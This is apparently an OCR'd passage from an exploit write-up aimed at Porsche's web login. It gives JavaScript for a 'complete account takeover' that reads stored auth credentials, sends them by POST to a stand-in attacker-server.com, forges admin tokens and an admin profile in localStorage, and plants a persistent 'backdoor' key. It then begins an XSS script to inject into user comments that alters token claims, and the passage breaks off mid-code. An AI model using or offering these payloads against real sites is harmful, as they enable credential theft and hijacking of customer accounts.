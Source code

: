 #### **Step 3: Persistence and Privilege Escalation**
```javascript
// Complete takeover payload
const completeAccountTakeover = () => {
  // 1. Steal original credentials
  const originalAuth = discoverAuth();
  
  // 2. Exfiltrate to attacker
  fetch('https://attacker-server.com/stolen-auth', {
    method: 'POST',
    body: JSON.stringify(originalAuth)
  });
  
  // 3. Replace with admin credentials
  const adminToken = createFakeAdminToken();
  localStorage.setItem('auth0.access_token', adminToken);
  localStorage.setItem('auth0.id_token', adminToken);
  
  // 4. Modify user profile
  localStorage.setItem('auth0.user_profile', JSON.stringify({
    sub: "admin_user_12345",
    email: "admin@porsche.com",
    name: "System Administrator",
    roles: ["admin"],
    permissions: ["*"]
  }));
  
  // 5. Set persistent backdoor
  localStorage.setItem('backdoor_access', btoa(JSON.stringify({
    created: Date.now(),
    access_key: "persistent_backdoor_key",
    expires: Date.now() + (365 * 24 * 60 * 60 * 1000) // 1 year
  })));
  
  // 6. Reload to activate new session
  window.location.reload();
};
```

---

## 🎯 **REAL-WORLD ATTACK SCENARIOS**

### **Attack 1: Customer Account Takeover**
```javascript
// Target: Regular customer accounts
// Method: XSS injection in user-generated content

// 1. Inject malicious script in profile/comments
const customerTakeoverScript = `
<script>
// Wait for auth tokens to load
setTimeout(() => {
  const userToken = localStorage.getItem('auth0.access_token');
  if (userToken) {
    // Decode and modify token claims
    const [header, payload, signature] = userToken.split('.');
    const decodedPayload = JSON.parse(atob(payload));
    
    // Escalate privileges
    decodedPayload.roles = ['premium_customer', 'vip'];
    decodedPayload.permissions = ['access:all_models', 'book:any_vehicle'];
    
```